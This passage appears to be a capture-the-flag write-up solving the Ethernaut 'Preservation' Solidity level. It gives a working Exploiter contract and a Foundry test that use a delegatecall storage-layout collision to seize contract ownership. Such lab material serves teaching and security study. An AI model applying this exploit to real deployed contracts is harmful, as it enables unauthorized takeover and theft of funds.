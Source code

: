 That's it! Let's make it happen!

## Solution code

First, we need to create a contract that

- Implement the same function implemented by the `LibraryContract` otherwise the transaction will revert
- Have three state variables that will mimic the `Preservation` layout storage to be able to update the `owner` variable
- update the `owner` variable in the `setTime` function

Let's see the code

```solidity
contract Exploiter {
    // mimim the `Preservation` contract layout structure
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    // Implement the same `setTime` function signature of `LibraryContract`
    function setTime(uint256 time) public {
        // Convert the `time` input to an `address` and update the `owner` state variable
        owner = address(time);
    }
}
```

And now we just need to execute it in our test file

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Create and deploy out Exploiter contract
    Exploiter exploiter = new Exploiter();

    // Update the `Preservation` `timeZone1Library` address with our own `exploiter` address
    // by taking advantage of the `delegatecall` bug introduced in the contract
    level.setFirstTime(uint256(address(exploiter)));

    // Now when the level execute `setFirstTime` it will instead execute `exploiter.setTime` via delegatecall
    // We pass our own EOA address casted as a `uint256`. It will be casted back to `address` in the `setTime` function
    level.setFirstTime(uint256(player));

    vm.stopPrank();

    // Assert that we are now the new owner of the level
    assertEq(level.owner(), player);
}
```
